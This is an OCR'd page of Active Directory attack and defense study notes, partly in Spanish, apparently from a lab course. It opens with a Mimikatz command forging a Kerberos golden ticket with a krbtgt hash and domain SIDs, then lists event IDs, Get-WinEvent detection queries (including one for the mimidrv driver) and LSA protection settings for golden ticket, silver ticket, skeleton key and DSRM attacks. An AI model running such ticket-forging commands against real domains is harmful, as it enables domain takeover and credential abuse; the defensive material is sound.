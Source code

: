         `Invoke-Mimikatz -Command '"kerberos::golden /user:us-dc$ /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /groups:516 /krbtgt:b0975ae49f441adc6b024ad238935af5 /sids:S-1-5-21-2781415573-3701854478-2406986946-516,S-1-5-9 /ptt"'`

**Detection and Defense - Golden Ticket**

- Alguna identificación de evento importante:
- ID de evento
    - 4624: inicio de sesión de cuenta
    - 4672: Inicio de sesión de administrador

    `Get-WinEvent -FilterHashtable@{Logname='Security';ID=4672} -MaxEvents 1 | Format-List –Property *`

**Detection and Defense - Silver Ticket**

- ID de evento
    - 4624: inicio de sesión de cuenta
    - 4634: cierre de sesión de la cuenta
    - 4672: Inicio de sesión de administrador

    `Get-WinEvent -FilterHashtable@{Logname='Security';ID=4672} -MaxEvents 1 | Format-List –Property *`

**Detection** and Defense - Skeleton Key

- Eventos
    - ID de evento del sistema 7045: se instaló un servicio en el sistema. (Tipo controlador de modo kernel)
- Eventos ("Auditar el uso de privilegios" debe estar habilitado)
    - ID de evento de seguridad 4673 - Uso de privilegios confidenciales
    - Id. De evento 4611: se ha registrado un proceso de inicio de sesión de confianza con la autoridad de seguridad local

    `Get-WinEvent -FilterHashtable @{Logname='System';ID=7045} | ?{$_.message -like "*Kernel Mode Driver*"}`

- No recomendado:

    `Get-WinEvent -FilterHashtable @{Logname='System';ID=7045} | ?{$_.message -like "*Kernel Mode Driver*" -and $_.message -like "*mimidrv*"}`

- Mitigación
    - Ejecutar lsass.exe como un proceso protegido es realmente útil, ya que obliga al atacante a cargar un controlador en modo kernel.
    - Asegúrese de probarlo a fondo, ya que es posible que muchos controladores y complementos no se carguen con la protección.

    `New-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name RunAsPPL -Value 1 -Verbose`

- Verificar después de reiniciar:

    `Get-WinEvent -FilterHashtable @{Logname='System';ID=12} | ?{$_.message -like "*protected process*"}`

**Detection and Defense - DSRM**

- Eventos
    - ID de evento 4657 - Creación / cambio de auditoría de
    HKLM:\System\CurrentControlSet\Control\Lsa\DsrmAdminLogonBehavior
